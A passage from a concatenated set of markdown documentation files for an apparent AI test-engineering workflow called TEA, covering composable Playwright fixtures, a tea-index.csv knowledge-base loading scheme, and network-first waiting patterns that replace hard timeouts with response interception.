// ❌ Bad: Everything in one fixture
export const test = base.extend({
  testUtils: async ({ page, request, context }, use) => {
    await use({
      // 50 different methods crammed into one fixture
      apiRequest: async (...) => { },
      login: async (...) => { },
      createUser: async (...) => { },
      deleteUser: async (...) => { },
      uploadFile: async (...) => { },
      // ... 45 more methods
    });
  }
});
```

**Problems:**

- Cannot test individual utilities
- Cannot compose (all-or-nothing)
- Cannot reuse specific utilities
- Hard to maintain (1000+ line file)

### Good Pattern: Single-Concern Fixtures

```typescript
// ✅ Good: One concern per fixture

// api-request.ts
export const test = base.extend({ apiRequest });

// auth-session.ts
export const test = base.extend({ authSession });

// log.ts
export const test = base.extend({ log });

// Compose as needed
import { mergeTests } from '@playwright/test';
export const test = mergeTests(apiRequestTest, authSessionTest, logTest);
```

**Benefits:**

- Each fixture is unit-testable
- Compose only what you need
- Reuse individual fixtures
- Easy to maintain (small files)

## Technical Implementation

For detailed fixture architecture patterns, see the knowledge base:

- [Knowledge Base Index - Architecture & Fixtures](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md)
- [Complete Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md)

## When to Use This Pattern

### Always Use For:

**Reusable utilities:**

- API request helpers
- Authentication handlers
- File operations
- Network mocking

**Test infrastructure:**

- Shared fixtures across teams
- Packaged utilities (playwright-utils)
- Company-wide test standards

### Consider Skipping For:

**One-off test setup:**

```typescript
// Simple one-time setup - inline is fine
test.beforeEach(async ({ page }) => {
  await page.goto('/');
  await page.click('#accept-cookies');
});
```

**Test-specific helpers:**

```typescript
// Used in one test file only - keep local
function createTestUser(name: string) {
  return { name, email: `${name}@test.com` };
}
```

## Related Concepts

**Core TEA Concepts:**

- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - Quality standards fixtures enforce
- [Knowledge Base System](/brain/knowledge/docs_legacy/explanation/knowledge-base-system.md) - Fixture patterns in knowledge base

**Technical Patterns:**

- [Network-First Patterns](/brain/knowledge/docs_legacy/explanation/network-first-patterns.md) - Network fixtures explained
- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - Fixture complexity matches risk

**Overview:**

- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - Fixture architecture in workflows
- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md) - Why fixtures matter

## Practical Guides

**Setup Guides:**

- [How to Set Up Test Framework](/brain/knowledge/docs_legacy/how-to/workflows/setup-test-framework.md) - TEA scaffolds fixtures
- [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md) - Production-ready fixtures

**Workflow Guides:**

- [How to Run ATDD](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md) - Using fixtures in tests
- [How to Run Automate](/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md) - Fixture composition examples

## Reference

- [TEA Command Reference](../bmad_repo/commands.md) - `framework` command
- [Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Fixture architecture fragments
- [Glossary](../INDEX.md#test-architect-tea-concepts) - Fixture architecture term

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/explanation/knowledge-base-system.md`
```markdown
---
title: 'Knowledge Base System Explained'
description: Understanding how TEA uses tea-index.csv for context engineering and consistent test quality
---

# Knowledge Base System Explained

TEA's knowledge base system is how context engineering works - automatically loading domain-specific standards into AI context so tests are consistently high-quality regardless of prompt variation.

## Overview

**The Problem:** AI without context produces inconsistent results.

**Traditional approach:**

```
User: "Write tests for login"
AI: [Generates tests with random quality]
- Sometimes uses hard waits
- Sometimes uses good patterns
- Inconsistent across sessions
- Quality depends on prompt
```

**TEA with knowledge base:**

```
User: "Write tests for login"
TEA: [Loads test-quality.md, network-first.md, auth-session.md]
TEA: [Generates tests following established patterns]
- Always uses network-first patterns
- Always uses proper fixtures
- Consistent across all sessions
- Quality independent of prompt
```

**Result:** Systematic quality, not random chance.

## The Problem

### Prompt-Driven Testing = Inconsistency

**Session 1:**

```
User: "Write tests for profile editing"

AI: [No context loaded]
// Generates test with hard waits
await page.waitForTimeout(3000);
```

**Session 2:**

```
User: "Write comprehensive tests for profile editing with best practices"

AI: [Still no systematic context]
// Generates test with some improvements, but still issues
await page.waitForSelector('.success', { timeout: 10000 });
```

**Session 3:**

```
User: "Write tests using network-first patterns and proper fixtures"

AI: [Better prompt, but still reinventing patterns]
// Generates test with network-first, but inconsistent with other tests
```

**Problem:** Quality depends on prompt engineering skill, no consistency.

### Knowledge Drift

Without a knowledge base:

- Team A uses pattern X
- Team B uses pattern Y
- Both work, but inconsistent
- No single source of truth
- Patterns drift over time

## The Solution: tea-index.csv Manifest

### How It Works

**1. Manifest Defines Fragments**

`src/agents/bmad-tea/resources/tea-index.csv`:

```csv
id,name,description,tags,tier,fragment_file
test-quality,Test Quality,Execution limits and isolation rules,"quality,standards",knowledge/test-quality.md
network-first,Network-First Safeguards,Intercept-before-navigate workflow,"network,stability",knowledge/network-first.md
fixture-architecture,Fixture Architecture,Composable fixture patterns,"fixtures,architecture",knowledge/fixture-architecture.md
```

**2. Workflow Loads Relevant Fragments**

When user runs `atdd`:

```
TEA reads tea-index.csv
Identifies fragments needed for ATDD:
- test-quality.md (quality standards)
- network-first.md (avoid flakiness)
- component-tdd.md (TDD patterns)
- fixture-architecture.md (reusable fixtures)
- data-factories.md (test data)

Loads only these 5 fragments (not all 42)
Generates tests following these patterns
```

**3. Consistent Output**

Every time `atdd` runs:

- Same fragments loaded
- Same patterns applied
- Same quality standards
- Consistent test structure

**Result:** Tests look like they were written by the same expert, every time.

### Knowledge Base Loading Diagram



## Fragment Structure

For a deeper look at the actual fragments, see [Fragment Categories](/reference/knowledge-base/#fragment-categories).

### Anatomy of a Fragment

Each fragment follows this structure:

````markdown
# Fragment Name

## Principle

[One sentence - what is this pattern?]

## Rationale

[Why use this instead of alternatives?]
Why this pattern exists
Problems it solves
Benefits it provides

## Pattern Examples

### Example 1: Basic Usage

```code
[Runnable code example]
```
````

[Explanation of example]

### Example 2: Advanced Pattern

```code
[More complex example]
```

[Explanation]

## Anti-Patterns

### Don't Do This

```code
[Bad code example]
```

[Why it's bad]
[What breaks]

## Related Patterns

- [Link to related fragment]

````

<!-- markdownlint-disable MD024 -->
### Example: test-quality.md Fragment

```markdown
# Test Quality

## Principle
Tests must be deterministic, isolated, explicit, focused, and fast.

## Rationale
Tests that fail randomly, depend on each other, or take too long lose team trust.
[... detailed explanation ...]

## Pattern Examples

### Example 1: Deterministic Test
```typescript
// ✅ Wait for actual response, not timeout
const promise = page.waitForResponse(matcher);
await page.click('button');
await promise;
````

### Example 2: Isolated Test

```typescript
// ✅ Self-cleaning test
test('test', async ({ page }) => {
  const userId = await createTestUser();
  // ... test logic ...
  await deleteTestUser(userId); // Cleanup
});
```

## Anti-Patterns

### Hard Waits

```typescript
// ❌ Non-deterministic
await page.waitForTimeout(3000);
```

[Why this causes flakiness]

```

**Total:** 24.5 KB, 12 code examples
<!-- markdownlint-enable MD024 -->

## How TEA Uses the Knowledge Base

### Workflow-Specific Loading

**Different workflows load different fragments:**

| Workflow | Fragments Loaded | Purpose |
|----------|-----------------|---------|
| `framework` | fixture-architecture, playwright-config, fixtures-composition | Infrastructure patterns |
| `test-design` | test-quality, test-priorities-matrix, risk-governance | Planning standards |
| `atdd` | test-quality, component-tdd, network-first, data-factories | TDD patterns |
| `automate` | test-quality, test-levels-framework, selector-resilience | Comprehensive generation |
| `test-review` | All quality/resilience/debugging fragments | Full audit patterns |
| `ci` | ci-burn-in, burn-in, selective-testing | CI/CD optimization |

**Benefit:** Only load what's needed (focused context, no bloat).

### Dynamic Fragment Selection

TEA doesn't load all 42 fragments at once:

```

User runs: atdd for authentication feature

TEA analyzes context:

- Feature type: Authentication
- Relevant fragments:
  - test-quality.md (always loaded)
  - auth-session.md (auth patterns)
  - network-first.md (avoid flakiness)
  - email-auth.md (if email-based auth)
  - data-factories.md (test users)

Skips:

- contract-testing.md (not relevant)
- feature-flags.md (not relevant)
- file-utils.md (not relevant)

Result: 5 relevant fragments loaded, 37 skipped

```

**Benefit:** Focused context = better results, lower token usage.

## Context Engineering in Practice

### Example: Consistent Test Generation

**Without Knowledge Base (Vanilla Playwright, Random Quality):**
```

Session 1: User runs atdd
AI: [Guesses patterns from general knowledge]

Generated:
test('api test', async ({ request }) => {
const response = await request.get('/api/users');
await page.waitForTimeout(2000); // Hard wait
const users = await response.json();
// Random quality
});

Session 2: User runs atdd (different day)
AI: [Different random patterns]

Generated:
test('api test', async ({ request }) => {
const response = await request.get('/api/users');
const users = await response.json();
// Better but inconsistent
});

Result: Inconsistent quality, random patterns

```

**With Knowledge Base (TEA + Playwright Utils):**
```

Session 1: User runs atdd
TEA: [Loads test-quality.md, network-first.md, api-request.md from tea-index.csv]

Generated:
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';

test('should fetch users', async ({ apiRequest }) => {
const { status, body } = await apiRequest({
method: 'GET',
path: '/api/users'
}).validateSchema(UsersSchema); // Chained validation

expect(status).toBe(200);
expect(body).toBeInstanceOf(Array);
});

Session 2: User runs atdd (different day)
TEA: [Loads same fragments from tea-index.csv]

Generated: Identical pattern, same quality

Result: Systematic quality, established patterns (ALWAYS uses apiRequest utility when playwright-utils enabled)

```

**Key Difference:**
- **Without KB:** Random patterns, inconsistent APIs
- **With KB:** Always uses `apiRequest` utility, always validates schemas, always returns `{ status, body }`

### Example: Test Review Consistency

**Without Knowledge Base:**
```

test-review session 1:
"This test looks okay" [50 issues missed]

test-review session 2:
"This test has some issues" [Different issues flagged]

Result: Inconsistent feedback

```

**With Knowledge Base:**
```

test-review session 1:
[Loads all quality fragments]
Flags: 12 hard waits, 5 conditionals (based on test-quality.md)

test-review session 2:
[Loads same fragments]
Flags: Same issues with same explanations

Result: Consistent, reliable feedback

````

## Maintaining the Knowledge Base

### When to Add a Fragment

**Good reasons:**
- Pattern is used across multiple workflows
- Standard is non-obvious (needs documentation)
- Team asks "how should we handle X?" repeatedly
- New tool integration (e.g., new testing library)

**Bad reasons:**
- One-off pattern (document in test file instead)
- Obvious pattern (everyone knows this)
- Experimental (not proven yet)

### Fragment Quality Standards

**Good fragment:**
- Principle stated in one sentence
- Rationale explains why clearly
- 3+ pattern examples with code
- Anti-patterns shown (what not to do)
- Self-contained (minimal dependencies)

**Example size:** 10-30 KB optimal

### Updating Existing Fragments

**When to update:**
- Pattern evolved (better approach discovered)
- Tool updated (new Playwright API)
- Team feedback (pattern unclear)
- Bug in example code

**How to update:**
1. Edit fragment markdown file
2. Update examples
3. Test with affected workflows
4. Ensure no breaking changes

**No need to update tea-index.csv** unless description/tags change.

## Benefits of Knowledge Base System

### 1. Consistency

**Before:** Test quality varies by who wrote it
**After:** All tests follow same patterns (TEA-generated or reviewed)

### 2. Onboarding

**Before:** New team member reads 20 documents, asks 50 questions
**After:** New team member runs `atdd`, sees patterns in generated code, learns by example

### 3. Quality Gates

**Before:** "Is this test good?" → subjective opinion
**After:** `test-review` → objective score against knowledge base

### 4. Pattern Evolution

**Before:** Update tests manually across 100 files
**After:** Update fragment once, all new tests use new pattern

### 5. Cross-Project Reuse

**Before:** Reinvent patterns for each project
**After:** Same fragments across all BMad projects (consistency at scale)

## Comparison: With vs Without Knowledge Base

### Scenario: Testing Async Background Job

**Without Knowledge Base:**

Developer 1:
```typescript
// Uses hard wait
await page.click('button');
await page.waitForTimeout(10000);  // Hope job finishes
````

Developer 2:

```typescript
// Uses polling
await page.click('button');
for (let i = 0; i < 10; i++) {
  const status = await page.locator('.status').textContent();
  if (status === 'complete') break;
  await page.waitForTimeout(1000);
}
```

Developer 3:

```typescript
// Uses waitForSelector
await page.click('button');
await page.waitForSelector('.success', { timeout: 30000 });
```

**Result:** 3 different patterns, all suboptimal.

**With Knowledge Base (recurse.md fragment):**

All developers:

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';

test('job completion', async ({ apiRequest, recurse }) => {
  // Start async job
  const { body: job } = await apiRequest({
    method: 'POST',
    path: '/api/jobs',
  });

  // Poll until complete (correct API: command, predicate, options)
  const result = await recurse(
    () => apiRequest({ method: 'GET', path: `/api/jobs/${job.id}` }),
    (response) => response.body.status === 'completed', // response.body from apiRequest
    {
      timeout: 30000,
      interval: 2000,
      log: 'Waiting for job to complete',
    },
  );

  expect(result.body.status).toBe('completed');
});
```

**Result:** Consistent pattern using correct playwright-utils API (command, predicate, options).

## Technical Implementation

For details on the knowledge base index, see:

- [Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md)
- [TEA Configuration](configuration.md)

## Related Concepts

**Core TEA Concepts:**

- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - Standards in knowledge base
- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - Risk patterns in knowledge base
- [Engagement Models](/brain/knowledge/docs_legacy/explanation/engagement-models.md) - Knowledge base across all models

**Technical Patterns:**

- [Fixture Architecture](/brain/knowledge/docs_legacy/explanation/fixture-architecture.md) - Fixture patterns in knowledge base
- [Network-First Patterns](/brain/knowledge/docs_legacy/explanation/network-first-patterns.md) - Network patterns in knowledge base

**Overview:**

- [TEA Overview](/brain/knowledge/docs_legacy/explanation/tea-overview.md) - Knowledge base in workflows
- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md) - **Foundation: Context engineering philosophy** (why knowledge base solves AI test problems)

## Practical Guides

**All Workflow Guides Use Knowledge Base:**

- [How to Run Test Design](/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md)
- [How to Run ATDD](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md)
- [How to Run Automate](/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md)
- [How to Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md)

**Integration:**

- [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md) - PW-Utils in knowledge base

## Reference

- [Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - Complete fragment index
- [TEA Command Reference](../bmad_repo/commands.md) - Which workflows load which fragments
- [TEA Configuration](configuration.md) - Config affects fragment loading
- [Glossary](../INDEX.md#test-architect-tea-concepts) - Context engineering, knowledge fragment terms

---

Generated with [BMad Method](https://bmad-method.org) - TEA (Test Engineering Architect)
```

## File: `brain/knowledge/docs_legacy/explanation/network-first-patterns.md`
```markdown
---
title: 'Network-First Patterns Explained'
description: Understanding how TEA eliminates test flakiness by waiting for actual network responses
---

# Network-First Patterns Explained

Network-first patterns are TEA's solution to test flakiness. Instead of guessing how long to wait with fixed timeouts, wait for the actual network event that causes UI changes.

## Overview

**The Core Principle:**
UI changes because APIs respond. Wait for the API response, not an arbitrary timeout.

**Traditional approach:**

```typescript
await page.click('button');
await page.waitForTimeout(3000); // Hope 3 seconds is enough
await expect(page.locator('.success')).toBeVisible();
```

**Network-first approach:**

```typescript
const responsePromise = page.waitForResponse((resp) => resp.url().includes('/api/submit') && resp.ok());
await page.click('button');
await responsePromise; // Wait for actual response
await expect(page.locator('.success')).toBeVisible();
```

**Result:** Deterministic tests that wait exactly as long as needed.

## The Problem

### Hard Waits Create Flakiness

```typescript
// ❌ The flaky test pattern
test('should submit form', async ({ page }) => {
  await page.fill('#name', 'Test User');
  await page.click('button[type="submit"]');

  await page.waitForTimeout(2000); // Wait 2 seconds

  await expect(page.locator('.success')).toBeVisible();
});
```

**Why this fails:**

- **Fast network:** Wastes 1.5 seconds waiting
- **Slow network:** Not enough time, test fails
- **CI environment:** Slower than local, fails randomly
- **Under load:** API takes 3 seconds, test fails

**Result:** "Works on my machine" syndrome, flaky CI.

### The Timeout Escalation Trap

```typescript
// Developer sees flaky test
await page.waitForTimeout(2000); // Failed in CI

// Increases timeout
await page.waitForTimeout(5000); // Still fails sometimes

// Increases again
await page.waitForTimeout(10000); // Now it passes... slowly

// Problem: Now EVERY test waits 10 seconds
// Suite that took 5 minutes now takes 30 minutes
```

**Result:** Slow, still-flaky tests.

### Race Conditions

```typescript
// ❌ Navigate-then-wait race condition
test('should load dashboard data', async ({ page }) => {
  await page.goto('/dashboard'); // Navigation starts

  // Race condition! API might not have responded yet
  await expect(page.locator('.data-table')).toBeVisible();
});
```

**What happens:**

1. `goto()` starts navigation
2. Page loads HTML
3. JavaScript requests `/api/dashboard`
4. Test checks for `.data-table` BEFORE API responds
5. Test fails intermittently

**Result:** "Sometimes it works, sometimes it doesn't."

## The Solution: Intercept-Before-Navigate

### Wait for Response Before Asserting

```typescript
// ✅ Good: Network-first pattern
test('should load dashboard data', async ({ page }) => {
  // Set up promise BEFORE navigation
  const dashboardPromise = page.waitForResponse((resp) => resp.url().includes('/api/dashboard') && resp.ok());

  // Navigate
  await page.goto('/dashboard');

  // Wait for API response
  const response = await dashboardPromise;
  const data = await response.json();

  // Now assert UI
  await expect(page.locator('.data-table')).toBeVisible();
  await expect(page.locator('.data-table tr')).toHaveCount(data.items.length);
});
```

**Why this works:**

- Wait set up BEFORE navigation (no race)
- Wait for actual API response (deterministic)
- No fixed timeout (fast when API is fast)
- Validates API response (catch backend errors)

**With Playwright Utils (Even Cleaner):**

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';
import { expect } from '@playwright/test';

test('should load dashboard data', async ({ page, interceptNetworkCall }) => {
  // Set up interception BEFORE navigation
  const dashboardCall = interceptNetworkCall({
    method: 'GET',
    url: '**/api/dashboard',
  });

  // Navigate
  await page.goto('/dashboard');

  // Wait for API response (automatic JSON parsing)
  const { status, responseJson: data } = await dashboardCall;

  // Validate API response
  expect(status).toBe(200);
  expect(data.items).toBeDefined();

  // Assert UI matches API data
  await expect(page.locator('.data-table')).toBeVisible();
  await expect(page.locator('.data-table tr')).toHaveCount(data.items.length);
});
```

**Playwright Utils Benefits:**

- Automatic JSON parsing (no `await response.json()`)
- Returns `{ status, responseJson, requestJson }` structure
- Cleaner API (no need to check `resp.ok()`)
- Same intercept-before-navigate pattern

### Intercept-Before-Navigate Pattern

**Key insight:** Set up wait BEFORE triggering the action.

```typescript
// ✅ Pattern: Intercept → Action → Await

// 1. Intercept (set up wait)
const promise = page.waitForResponse(matcher);

// 2. Action (trigger request)
await page.click('button');

// 3. Await (wait for actual response)
await promise;
```

**Why this order:**

- `waitForResponse()` starts listening immediately
- Then trigger the action that makes the request
- Then wait for the promise to resolve
- No race condition possible

#### Intercept-Before-Navigate Flow



**Correct Order (Green):**

1. Set up listener (`waitForResponse`)
2. Trigger action (`click`)
3. Wait for response (`await promise`)

**Wrong Order (Red):**

1. Trigger action first
2. Set up listener too late
3. Response already happened - missed!

## How It Works in TEA

### TEA Generates Network-First Tests

**Vanilla Playwright:**

```typescript
// When you run `atdd` or `automate`, TEA generates:

test('should create user', async ({ page }) => {
  // TEA automatically includes network wait
  const createUserPromise = page.waitForResponse(
    (resp) => resp.url().includes('/api/users') && resp.request().method() === 'POST' && resp.ok(),
  );

  await page.fill('#name', 'Test User');
  await page.click('button[type="submit"]');

  const response = await createUserPromise;
  const user = await response.json();

  // Validate both API and UI
  expect(user.id).toBeDefined();
  await expect(page.locator('.success')).toContainText(user.name);
});
```

**With Playwright Utils (if `tea_use_playwright_utils: true`):**

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';
import { expect } from '@playwright/test';

test('should create user', async ({ page, interceptNetworkCall }) => {
  // TEA uses interceptNetworkCall for cleaner interception
  const createUserCall = interceptNetworkCall({
    method: 'POST',
    url: '**/api/users',
  });

  await page.getByLabel('Name').fill('Test User');
  await page.getByRole('button', { name: 'Submit' }).click();

  // Wait for response (automatic JSON parsing)
  const { status, responseJson: user } = await createUserCall;

  // Validate both API and UI
  expect(status).toBe(201);
  expect(user.id).toBeDefined();
  await expect(page.locator('.success')).toContainText(user.name);
});
```

**Playwright Utils Benefits:**

- Automatic JSON parsing (`responseJson` ready to use)
- No manual `await response.json()`
- Returns `{ status, responseJson }` structure
- Cleaner, more readable code

### TEA Reviews for Hard Waits

When you run `test-review`:

````markdown
## Critical Issue: Hard Wait Detected

**File:** tests/e2e/submit.spec.ts:45
**Issue:** Using `page.waitForTimeout(3000)`
**Severity:** Critical (causes flakiness)

**Current Code:**

```typescript
await page.click('button');
await page.waitForTimeout(3000); // ❌
```
````

**Fix:**

```typescript
const responsePromise = page.waitForResponse((resp) => resp.url().includes('/api/submit') && resp.ok());
await page.click('button');
await responsePromise; // ✅
```

**Why:** Hard waits are non-deterministic. Use network-first patterns.

````

## Pattern Variations

### Basic Response Wait

**Vanilla Playwright:**
```typescript
// Wait for any successful response
const promise = page.waitForResponse(resp => resp.ok());
await page.click('button');
await promise;
````

**With Playwright Utils:**

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';

test('basic wait', async ({ page, interceptNetworkCall }) => {
  const responseCall = interceptNetworkCall({ url: '**' }); // Match any
  await page.click('button');
  const { status } = await responseCall;
  expect(status).toBe(200);
});
```

---

### Specific URL Match

**Vanilla Playwright:**

```typescript
// Wait for specific endpoint
const promise = page.waitForResponse((resp) => resp.url().includes('/api/users/123'));
await page.goto('/user/123');
await promise;
```

**With Playwright Utils:**

```typescript
test('specific URL', async ({ page, interceptNetworkCall }) => {
  const userCall = interceptNetworkCall({ url: '**/api/users/123' });
  await page.goto('/user/123');
  const { status, responseJson } = await userCall;
  expect(status).toBe(200);
});
```

---

### Method + Status Match

**Vanilla Playwright:**

```typescript
// Wait for POST that returns 201
const promise = page.waitForResponse(
  (resp) => resp.url().includes('/api/users') && resp.request().method() === 'POST' && resp.status() === 201,
);
await page.click('button[type="submit"]');
await promise;
```

**With Playwright Utils:**

```typescript
test('method and status', async ({ page, interceptNetworkCall }) => {
  const createCall = interceptNetworkCall({
    method: 'POST',
    url: '**/api/users',
  });
  await page.click('button[type="submit"]');
  const { status, responseJson } = await createCall;
  expect(status).toBe(201); // Explicit status check
});
```

---

### Multiple Responses

**Vanilla Playwright:**

```typescript
// Wait for multiple API calls
const [usersResp, postsResp] = await Promise.all([
  page.waitForResponse((resp) => resp.url().includes('/api/users')),
  page.waitForResponse((resp) => resp.url().includes('/api/posts')),
  page.goto('/dashboard'), // Triggers both requests
]);

const users = await usersResp.json();
const posts = await postsResp.json();
```

**With Playwright Utils:**

```typescript
test('multiple responses', async ({ page, interceptNetworkCall }) => {
  const usersCall = interceptNetworkCall({ url: '**/api/users' });
  const postsCall = interceptNetworkCall({ url: '**/api/posts' });

  await page.goto('/dashboard'); // Triggers both

  const [{ responseJson: users }, { responseJson: posts }] = await Promise.all([usersCall, postsCall]);

  expect(users).toBeInstanceOf(Array);
  expect(posts).toBeInstanceOf(Array);
});
```

---

### Validate Response Data

**Vanilla Playwright:**

```typescript
// Verify API response before asserting UI
const promise = page.waitForResponse((resp) => resp.url().includes('/api/checkout') && resp.ok());

await page.click('button:has-text("Complete Order")');

const response = await promise;
const order = await response.json();

// Response validation
expect(order.status).toBe('confirmed');
expect(order.total).toBeGreaterThan(0);

// UI validation
await expect(page.locator('.order-confirmation')).toContainText(order.id);
```

**With Playwright Utils:**

```typescript
test('validate response data', async ({ page, interceptNetworkCall }) => {
  const checkoutCall = interceptNetworkCall({
    method: 'POST',
    url: '**/api/checkout',
  });

  await page.click('button:has-text("Complete Order")');

  const { status, responseJson: order } = await checkoutCall;

  // Response validation (automatic JSON parsing)
  expect(status).toBe(200);
  expect(order.status).toBe('confirmed');
  expect(order.total).toBeGreaterThan(0);

  // UI validation
  await expect(page.locator('.order-confirmation')).toContainText(order.id);
});
```

## Advanced Patterns

### HAR Recording for Offline Testing

**Vanilla Playwright (Manual HAR Handling):**

```typescript
// First run: Record mode (saves HAR file)
test('offline testing - RECORD', async ({ page, context }) => {
  // Record mode: Save network traffic to HAR
  await context.routeFromHAR('./hars/dashboard.har', {
    url: '**/api/**',
    update: true, // Update HAR file
  });

  await page.goto('/dashboard');
  // All network traffic saved to dashboard.har
});

// Subsequent runs: Playback mode (uses saved HAR)
test('offline testing - PLAYBACK', async ({ page, context }) => {
  // Playback mode: Use saved network traffic
  await context.routeFromHAR('./hars/dashboard.har', {
    url: '**/api/**',
    update: false, // Use existing HAR, no network calls
  });

  await page.goto('/dashboard');
  // Uses recorded responses, no backend needed
});
```

**With Playwright Utils (Automatic HAR Management):**

```typescript
import { test } from '@seontechnologies/playwright-utils/network-recorder/fixtures';

// Record mode: Set environment variable
process.env.PW_NET_MODE = 'record';

test('should work offline', async ({ page, context, networkRecorder }) => {
  await networkRecorder.setup(context); // Handles HAR automatically

  await page.goto('/dashboard');
  await page.click('#add-item');
  // All network traffic recorded, CRUD operations detected
});
```

**Switch to playback:**

```bash
# Playback mode (offline)
PW_NET_MODE=playback npx playwright test
# Uses HAR file, no backend needed!
```

**Playwright Utils Benefits:**

- Automatic HAR file management (naming, paths)
- CRUD operation detection (stateful mocking)
- Environment variable control (easy switching)
- Works for complex interactions (create, update, delete)
- No manual route configuration

### Network Request Interception

**Vanilla Playwright:**

```typescript
test('should handle API error', async ({ page }) => {
  // Manual route setup
  await page.route('**/api/users', (route) => {
    route.fulfill({
      status: 500,
      body: JSON.stringify({ error: 'Internal server error' }),
    });
  });

  await page.goto('/users');

  const response = await page.waitForResponse('**/api/users');
  const error = await response.json();

  expect(error.error).toContain('Internal server');
  await expect(page.locator('.error-message')).toContainText('Server error');
});
```

**With Playwright Utils:**

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';

test('should handle API error', async ({ page, interceptNetworkCall }) => {
  // Stub API to return error (set up BEFORE navigation)
  const usersCall = interceptNetworkCall({
    method: 'GET',
    url: '**/api/users',
    fulfillResponse: {
      status: 500,
      body: { error: 'Internal server error' },
    },
  });

  await page.goto('/users');

  // Wait for mocked response and access parsed data
  const { status, responseJson } = await usersCall;

  expect(status).toBe(500);
  expect(responseJson.error).toContain('Internal server');
  await expect(page.locator('.error-message')).toContainText('Server error');
});
```

**Playwright Utils Benefits:**

- Automatic JSON parsing (`responseJson` ready to use)
- Returns promise with `{ status, responseJson, requestJson }`
- No need to pass `page` (auto-injected by fixture)
- Glob pattern matching (simpler than regex)
- Single declarative call (setup + wait in one)

## Comparison: Traditional vs Network-First

### Loading Dashboard Data

**Traditional (Flaky):**

```typescript
test('dashboard loads data', async ({ page }) => {
  await page.goto('/dashboard');
  await page.waitForTimeout(2000); // ❌ Magic number
  await expect(page.locator('table tr')).toHaveCount(5);
});
```

**Failure modes:**

- API takes 2.5s → test fails
- API returns 3 items not 5 → hard to debug (which issue?)
- CI slower than local → fails in CI only

**Network-First (Deterministic):**

```typescript
test('dashboard loads data', async ({ page }) => {
  const apiPromise = page.waitForResponse((resp) => resp.url().includes('/api/dashboard') && resp.ok());

  await page.goto('/dashboard');

  const response = await apiPromise;
  const { items } = await response.json();

  // Validate API response
  expect(items).toHaveLength(5);

  // Validate UI matches API
  await expect(page.locator('table tr')).toHaveCount(items.length);
});
```

**Benefits:**

- Waits exactly as long as needed (100ms or 5s, doesn't matter)
- Validates API response (catch backend errors)
- Validates UI matches API (catch frontend bugs)
- Works in any environment (local, CI, staging)

**With Playwright Utils (Even Better):**

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';

test('dashboard loads data', async ({ page, interceptNetworkCall }) => {
  const dashboardCall = interceptNetworkCall({
    method: 'GET',
    url: '**/api/dashboard',
  });

  await page.goto('/dashboard');

  const {
    status,
    responseJson: { items },
  } = await dashboardCall;

  // Validate API response (automatic JSON parsing)
  expect(status).toBe(200);
  expect(items).toHaveLength(5);

  // Validate UI matches API
  await expect(page.locator('table tr')).toHaveCount(items.length);
});
```

**Additional Benefits:**

- No manual `await response.json()` (automatic parsing)
- Cleaner destructuring of nested data
- Consistent API across all network calls

---

### Form Submission

**Traditional (Flaky):**

```typescript
test('form submission', async ({ page }) => {
  await page.fill('#email', 'test@example.com');
  await page.click('button[type="submit"]');
  await page.waitForTimeout(3000); // ❌ Hope it's enough
  await expect(page.locator('.success')).toBeVisible();
});
```

**Network-First (Deterministic):**

```typescript
test('form submission', async ({ page }) => {
  const submitPromise = page.waitForResponse(
    (resp) => resp.url().includes('/api/submit') && resp.request().method() === 'POST' && resp.ok(),
  );

  await page.fill('#email', 'test@example.com');
  await page.click('button[type="submit"]');

  const response = await submitPromise;
  const result = await response.json();

  expect(result.success).toBe(true);
  await expect(page.locator('.success')).toBeVisible();
});
```

**With Playwright Utils:**

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';

test('form submission', async ({ page, interceptNetworkCall }) => {
  const submitCall = interceptNetworkCall({
    method: 'POST',
    url: '**/api/submit',
  });

  await page.getByLabel('Email').fill('test@example.com');
  await page.getByRole('button', { name: 'Submit' }).click();

  const { status, responseJson: result } = await submitCall;

  // Automatic JSON parsing, no manual await
  expect(status).toBe(200);
  expect(result.success).toBe(true);
  await expect(page.locator('.success')).toBeVisible();
});
```

**Progression:**

- Traditional: Hard waits (flaky)
- Network-First (Vanilla): waitForResponse (deterministic)
- Network-First (PW-Utils): interceptNetworkCall (deterministic + cleaner API)

---

## Common Misconceptions

### "I Already Use waitForSelector"

```typescript
// This is still a hard wait in disguise
await page.click('button');
await page.waitForSelector('.success', { timeout: 5000 });
```

**Problem:** Waiting for DOM, not for the API that caused DOM change.

**Better:**

```typescript
await page.waitForResponse(matcher); // Wait for root cause
await page.waitForSelector('.success'); // Then validate UI
```

### "My Tests Are Fast, Why Add Complexity?"

**Short-term:** Tests are fast locally

**Long-term problems:**

- Different environments (CI slower)
